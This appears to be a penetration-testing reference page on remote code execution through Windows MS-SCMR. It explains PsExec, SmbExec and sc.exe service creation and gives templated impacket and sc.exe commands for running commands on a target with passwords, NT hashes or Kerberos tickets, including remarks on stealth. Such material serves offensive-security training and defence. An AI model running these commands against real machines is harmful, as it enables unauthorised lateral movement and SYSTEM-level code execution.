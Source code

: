 ```yaml
---
label: MS-SCMR
subLabel: (PsExec, SmbExec, ScExec)
---
```


# MS-SCMR: Service Control Manager Remote Protocol

> **Requirements**
>
> * Credentials (password, NT hash, Kerberos TGT) of a member of the local **Administrators** group on the target machine.
> * Read-write SMB share access.
> * Remote SCM via RPC enabled on the target machine (always by default).
> * SMB share enabled on the target machine (always by default).

## Description

Through the [MS-SCMR](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-scmr/705b624a-13de-43cc-b8a2-99573da3635f) (RPC) protocol, Windows allows remote communication with another machine's [Service Control Manager](https://learn.microsoft.com/pl-pl/windows/win32/services/service-control-manager) (SCM). This allows, among other things, remote startup of services. This capability ultimately allows the user to execute code on another machine (by creating a service), which is the basis for techniques like PsExec and SmbExec.

PsExec and SmbExec are well-known attacks designed to establish a pseudo-interactive "shell" on the target machine. Both attacks require access to SMB share of the target host (445/TCP).

It is worth remembering that remote service creation is a built-in feature of standard `sc.exe`. There is no magic here, it is a standard feature of Windows. Without SMB access, the service will execute, but we cannot provide a malicious binary to the service or receive a response. Most often, however, if remote execution of the service is possible, a read-write SMB share is also available (e.g. default `ADMIN$` or `C$` share).

By default, using service execution techniques a user needs to be a **local administrator** on the target machine to remotely interact with SCM via RPC. Windows services executed by the local administrator by default run in the context of **SYSTEM user**. Logon via MS-SCMR (RPC call) is of the **Network type** (no reusable credentials).

## PsExec

> **IMPORTANT**: A user who wants to use PsExec on a remote machine must have read-write access to at least one SMB share. Without remote SMB access, it is not possible to use PsExec.

Linux:

```bash
# Using password
impacket-psexec $domain/$user:$password@$host

# Using NT hash
impacket-psexec -hashes :$nt_hash $domain/$user@$host

# Using Kerberos TGT
export KRB5CCNAME=$tgt_ccache_file
impacket-psexec $domain/$user@$host -k -no-pass
```

Windows ([SysInternals - PsExec.exe](https://learn.microsoft.com/en-us/sysinternals/downloads/psexec)):

```powershell
# Using password
.\PsExec.exe -accepteula -u $user -p $password \\$HOST cmd

# Using Kerberos TGT (in-memory)
.\PsExec.exe -accepteula -u $user \\$HOST cmd
```

PsExec works by writing an `.exe` binary to the writable SMB share on the target host. Then, SCM is called remotely (via RPC) to execute the binary using created service. Binary creates a named pipe accessible via SMB. This named pipe is used by the user to execute commands remotely and read the output. Two-way communication is established via SMB.

> **Caveats**:
>
> * A generic binary is often detected by AV.
> * PsExec leaves artifacts behind on SMB share that require manual cleaning. The uploaded binary is not automatically removed.

## SmbExec

Linux:

```bash
# Using password
impacket-smbexec $domain/$user:$password@$host

# Using NT hash
impacket-smbexec -hashes :$nt_hash $domain/$user@$host

# Using Kerberos TGT
export KRB5CCNAME=$tgt_ccache_file
impacket-smbexec $domain/$user@$host -k -no-pass

# Debug mode (shows every executed `binPath` command)
impacket-smbexec [...] -debug
```

Unlike PsExec, SmbExec doesn't transfer a detectable binary to the target host. Instead of using a malicious binary, SmbExec launches a new service (using SCM remotely via RPC) with each new command. It executes the command in the `binPath` parameter of the service and closes the service. It just executes each desired command as a new service. Output is read via SMB share. There is no leftover on disk.

SmbExec is stealthier alternative to noisy and easy to detect PsExec. Nevertheless, it is important to remember that an event log is created for every command executed (service creation).

> **Caveats**
>
> * Each command run by SmbExec is a separate service. Therefore, there is no real session. Loading modules in PowerShell makes no sense. You have to load and call the module in a single command.
> * There's no `cd` command. Again - there's no real session.

## Raw Service Execution (ScExec)

You can use the standard Windows tool `sc.exe` to run a service on a remote machine. It can be a single shell command or, for example, a reverse-shell binary sent over SMB.

Linux (`impacket-services` is basically a Linux port of native `sc.exe`):

```bash
# Using password
impacket-services $domain/$user:$password@$host [action]

# Using NT hash
impacket-services -hashes :$nt_hash $domain/$user@$host [action]

# Using Kerberos TGT
export KRB5CCNAME=$tgt_ccache_file
impacket-services $domain/$user@$host -k -no-pass [action]

# Actions
list -h
create -h
start -h
stop -h
delete -h
```

Windows:

> **IMPORTANT**: Watch out for spaces in arguments. They are necessary!

```powershell
# Create and start service
sc \\$host create $svc_name binPath= "cmd.exe /c $command" start= auto
sc \\$host start $svc_name

# Stop and delete service
sc \\$host stop $svc_name
sc \\$host delete $svc_name
```

{/* TODO: How to provide credentials to `sc.exe`. */}

## References

* [Rift, _SMBExec: Red Side Analysis_](https://rift.stacktitan.com/smbexec/)
* [Boitatech, _SmbExec/ScExec_](https://hacktricks.boitatech.com.br/windows/ntlm/smbexec)
* [Ryan Hausknecht, _Offensive Lateral Movement_](https://posts.specterops.io/offensive-lateral-movement-1744ae62b14f)
